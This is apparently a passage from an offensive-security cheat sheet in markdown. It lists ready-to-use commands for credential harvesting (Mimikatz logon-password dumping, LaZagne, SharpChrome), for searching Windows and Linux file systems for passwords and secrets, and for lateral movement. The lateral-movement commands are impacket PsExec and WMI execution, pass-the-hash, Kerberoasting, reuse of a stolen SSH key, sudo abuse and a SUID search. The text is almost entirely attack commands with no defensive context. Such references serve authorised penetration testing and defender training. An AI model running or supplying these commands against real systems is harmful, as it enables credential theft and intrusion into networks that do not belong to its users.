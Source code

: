 ### Credential Harvesting
```bash
# Mimikatz
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords

# LaZagne
lazagne.exe all

# Browser credential extraction
SharpChrome.exe
```

### Data Discovery
```bash
# Windows
dir /s /b C:\ | findstr /i "password\|credential\|secret"
forfiles /p C:\ /m *.txt /s /c "cmd /c echo @path"

# Linux
find / -name "*.txt" -o -name "*.pdf" -o -name "*.doc*" 2>/dev/null
grep -r "password\|credential\|secret" /home/ 2>/dev/null
```

---

## Lateral Movement

### Windows Lateral Movement
```bash
# PSExec
psexec.py domain/user:password@target.com

# WMI
wmiexec.py domain/user:password@target.com

# Pass-the-Hash
pth-winexe -U domain/user%hash //target.com cmd.exe

# Kerberoasting
GetUserSPNs.py domain/user:password -dc-ip domain-controller -request
```

### Linux Lateral Movement
```bash
# SSH key abuse
ssh -i stolen_key user@target.com

# sudo abuse
sudo -l
sudo -u#0 command

# SUID binaries
find / -perm -4000 2>/dev/null
```
